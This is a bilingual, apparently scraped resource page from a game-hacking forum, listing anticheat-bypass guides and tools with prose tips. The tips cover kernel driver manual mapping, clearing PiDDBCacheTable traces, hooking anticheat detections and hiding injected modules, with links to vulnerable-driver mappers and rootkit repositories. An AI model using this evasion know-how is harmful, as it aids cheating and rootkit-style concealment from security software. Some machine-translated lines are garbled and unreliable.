[Source Code - How to Clear PiDDBCache Table / PiDDBLock](https://guidedhacking.com/threads/how-to-clear-piddbcache-table-piddblock.16034/)

**PatchGuard**
PatchGuard 检测内核中的补丁，您不能修改 anticheat 的内核驱动程序

**What Next?**
所以你可以手动映射你的驱动程序，你可以读写内存，你接下来要做什么？

好吧，你并没有真正绕过反作弊。您所做的只是加载了他们尚未检测到的作弊，现在他们很可能已经看到了您的模块。如果在多台机器上检测到相同的模块，您可能会发现自己处于下一个禁令浪潮中。只是制作一个驱动程序并映射它不会绕过任何东西。Kernel anticheats 具有令人难以置信的侵入性，它们可以检测系统上发生的一切。如果你正在做一些看起来很恶意的事情，他们可以很容易地检测到它并禁止你。

Kernel Antiheat 通常与用户模式模块结合使用，该模块被手动映射到游戏中并被混淆。下一步是 dump 内核模块和用户模式模块并对它们进行逆向工程。然后，您将对它们的运作方式有一个很好的了解。

请记住，您无法修改内核 antiheat，因此您需要绕过它。

接下来，您要 patch 所有用户模式检测，以便您可以附加调试器，尤其是 Cheat Engine & Reclass，以便您可以开始逆向游戏。

您可以从内核中修补或hook反作弊用户模式模块中的所有检测机制，并且您可以使用自己的内核模块来保护和隐藏自己的用户模式模块。本质上，您希望**阻止反作弊访问您的任何模块地址范围**。一旦你处理完所有这些，你就可以毫无困难地注入你的用户模式模块。


**Detection of Kernel Cheats**
他们检测易受攻击的驱动程序非常容易，反作弊开发人员拥有与我们相同的易受攻击的驱动程序列表，并且他们正在积极扫描最受欢迎的驱动程序。如果他们找到您的模块，他们会将其上传到他们的服务器，对其进行分析并为其构建检测。

例如，EAC 有一些非常好的检测方法，无论您试图绕过哪种反欺骗，您都应该阅读我们的  [EAC thread](https://guidedhacking.com/threads/how-to-bypass-eac-easy-anti-cheat.15956/) 以了解更多信息。

使用常规方法无法检测到手动映射的驱动程序，但映射您的驱动程序确实会留下痕迹。确保清除 `PiDDBCacheTable` 和驱动程序留下的任何其他内容。


**Guided Hacking Kernel Videos**

1. [Video Tutorial - How to Make a Windows Kernel Mode Driver Tutorial](https://guidedhacking.com/threads/how-to-make-a-windows-kernel-mode-driver-tutorial.15201/)
2. [Video Tutorial - Kernel 2 - Usermode Communication - IOCTL Tutorial](https://guidedhacking.com/threads/kernel-2-usermode-communication-ioctl-tutorial.15381/)
3. [Video Tutorial - How to Write Memory from Kernel - MmCopyVirtualMemory Tutorial](https://guidedhacking.com/threads/how-to-write-memory-from-kernel-mmcopyvirtualmemory-tutorial.15883/)

**GH Resources**

- [Download - KDMapper - Manually Map Kernel Drivers CVE-2015-229](https://guidedhacking.com/resources/kdmapper-manually-map-kernel-drivers-cve-2015-229.305/)
- [Guide - How to Bypass EAC - Easy Anti Cheat](https://guidedhacking.com/threads/how-to-bypass-eac-easy-anti-cheat.15956/)
- [Tutorial - MTA: SA's kernel mode anticheat is a joke (information)](https://guidedhacking.com/threads/mta-sas-kernel-mode-anticheat-is-a-joke-information.11078/)
- [Guide - Anticheat Battleye Bypass Overview](https://guidedhacking.com/threads/battleye-anticheat-bypass-overview.11602/)
- [Guide - How to bypass XignCode Anticheat Guide - XignCode3](https://guidedhacking.com/threads/how-to-bypass-xigncode-anticheat.10800/)
- [Source Code - CSGO Kernel Driver Multihack](https://guidedhacking.com/threads/csgo-kernel-driver-multihack.15130/)
- [Tutorial - MTA: SA's kernel mode anticheat is a joke (information)](https://guidedhacking.com/threads/mta-sas-kernel-mode-anticheat-is-a-joke-information.11078/)
- [Guide - How anti-cheats detect system emulation](https://guidedhacking.com/threads/how-anti-cheats-detect-system-emulation.14904/)
- [Download - GamersClub Anti-Cheat Information (Driver + user mode module)](https://guidedhacking.com/threads/gamersclub-anti-cheat-information-driver-user-mode-module.11371/)

**External Resources**

- [All secret.club articles](https://guidedhacking.com/tags/secretclub/)
- [xerox](https://back.engineering/)
- [hfiref0x/TDL](https://github.com/hfiref0x/TDL)
- [hfiref0x/KDU](https://github.com/hfiref0x/KDU)
- [hacksysteam/HackSysExtremeVulnerableDriver](https://github.com/hacksysteam/HackSysExtremeVulnerableDriver)
- [Zer0Mem0ry/ntoskrnl](https://github.com/Zer0Mem0ry/ntoskrnl)
- [FuzzySecurity/Capcom-Rootkit](https://github.com/FuzzySecurity/Capcom-Rootkit)
- [tandasat/ExploitCapcom](https://github.com/tandasat/ExploitCapcom)
- [SamLarenN/CapcomDKOM](https://github.com/SamLarenN/CapcomDKOM)
- [BlueSkeye/CapcomDriver](https://github.com/BlueSkeye/CapcomDriver)
- [zerosum0x0/ShellcodeDriver](https://github.com/zerosum0x0/ShellcodeDriver)


---

**Main Resources**

## 1. 300+ Threads in the Anti-Debug & Anticheat Forum Section 9822.

https://guidedhacking.com/forums/anticheat-antidebug.46/

**Kicked or Crashed When Attaching Cheat Engine?**
This means they are detecting the Cheat Engine string or the debugger attaching. These are the first things to try if the game doesn't have a **commercial anticheat**. 商业防作弊


**The first and easiest steps to attempt to bypass anticheat are:**

- Use `VEH Debugger` in Cheat Engine (it's in options under Debugger)  打开 VEH 调试器
- [Try Undetected Cheat Engine](https://guidedhacking.com/resources/guidedhacking-undetected-cheat-engine-7-0-udce.14/) 无检测CE
- [Try Cheat Engine Alternatives](https://guidedhacking.com/threads/cheat-engine-alternative-or-cheat-engine-similar-programs.3266/) 使用其它工具
- [Inject Scylla Hide first ( or use x64dbg plugin )](https://github.com/x64dbg/ScyllaHide) 先注入 Scylla 隐藏 dll
- Try using Manual Mapping and other injection methods from the [GH Injector](https://guidedhacking.com/resources/guided-hacking-dll-injector.4/) 使用手动映射或其他注入方式


**What is Anticheat?**
Anticheat is functionality built into the game or additional software that runs while the game is running, it uses various methods to detect cheats. You typically cannot play the game without it running. Most of the functionality built into anticheat is just classic [antidebug](https://guidedhacking.com/resources/the-ultimate-anti-reversing-reference-pdf.18/) with signature detection of cheats that the anticheat has built signatures for.

防作弊是游戏或游戏运行时运行的附加软件中内置的功能，它使用各种方法来检测作弊。通常情况下，你不能在游戏没有运行的情况下玩游戏。anticheat内置的大部分功能都是经典的[antidebug](https://guiddhacking.com/resources/the-ultimate-anti-reverse-reference-pdf.18/)，对anti heat为其构建签名的欺诈进行签名检测。


**Features Anticheat Uses**

- File Integrity Checks 文件完整性检查
- String Detection for cheat tools 欺骗工具的字符串检测
- [Classic AntiDebug](https://guidedhacking.com/threads/how-to-get-started-with-anticheat-bypass.9882/post-53676) 经典的防调试包
- Obfuscation 混淆
- Signature Based Detection 基于签名的检测
- Hook Detection hook检测
- Memory Integrity Checks 内存完整性检查
- Virtualization 虚拟化
- [Kernel Drivers which block process access token creation & more](https://guidedhacking.com/threads/kernel-mode-drivers-info-for-anticheat-bypass.11325/) 阻止进程访问令牌创建的内核驱动程序
- Virtualization Detection 虚拟化检测


---

## 2. Guide - How to Bypass Anticheat - Start Here Beginner's Guide

https://guidedhacking.com/threads/how-to-bypass-anticheat-start-here-beginners-guide.9882/


## 3. Tutorial - Junk Code Generator and Polymorphic Code Engine Guide

https://guidedhacking.com/threads/junk-code-generator-and-polymorphic-code-engine-guide.6720/


## 4. Guide - How To Bypass VAC Valve Anti Cheat Info

https://guidedhacking.com/threads/how-to-bypass-vac-valve-anti-cheat-info.8125/


## 5. Guide - Kernel Mode Drivers Info for Anticheat Bypass

https://guidedhacking.com/threads/kernel-mode-drivers-info-for-anticheat-bypass.11325/


## 6. Guide - Anticheat Battleye Bypass Overview

https://guidedhacking.com/threads/battleye-anticheat-bypass-overview.11602/


## 7. Guide - How to bypass XignCode Anticheat Guide - XignCode3

https://guidedhacking.com/threads/how-to-bypass-xigncode-anticheat.10800/


---

## 8. Guide - Hackshield Anticheat Bypass Information

https://guidedhacking.com/threads/hackshield-anticheat-bypass-information.10899/


---

## 9. Guide - How to Bypass FairFight Anticheat

https://guidedhacking.com/threads/how-to-bypass-fairfight-anticheat.13339/


## 10. Download - GamersClub Anti-Cheat Information (Driver + user mode module)

https://guidedhacking.com/threads/gamersclub-anti-cheat-information-gcsecure-sys-user-mode-module.11371/


## 11. Tutorial - MTA: SA's kernel mode anticheat is a joke (information)

https://guidedhacking.com/threads/mta-sas-kernel-mode-anticheat-is-a-joke-information.11078/


## 12. Guide - Anticheat XTrap Bypass Source Codes

https://guidedhacking.com/threads/anticheat-xtrap-bypass-source-codes.8156/


## 13. Guide - Anticheat nProtect Gameguard Bypass

https://guidedhacking.com/threads/anticheat-nprotect-gameguard-bypass.8008/


**Additional Resources**

## 14. Tutorial - Bypassing anti debug example in CS2D

https://guidedhacking.com/threads/bypassing-anti-debug-example-in-cs2d.9992/


## 15. Solved - How to Bypass Ragnarok Anticheat - Gepard Shield Bypass

https://guidedhacking.com/threads/how-to-bypass-ragnarok-anticheat-gepard-shield-bypass.10379


## 16. Source Code - CVEAC-2020: Bypassing EasyAntiCheat integrity checks

https://guidedhacking.com/threads/cveac-2020-bypassing-easyanticheat-integrity-checks.14870/


## 17. Download - Easy Anti-Cheat - EAC Driver Dumps - Unpacked Modules

https://guidedhacking.com/threads/easy-anti-cheat-eac-driver-dumps-unpacked-modules.12281/


**Offsite Resources**

## 18. secret club

https://secret.club/


## 19. Reversing XignCode3 Driver - Part 4.2 - Verifying windows version - Niemand - Cyber Security

https://niemand.com.ar/2020/02/14/reversing-xigncode3-driver-part-4-2-verifying-windows-version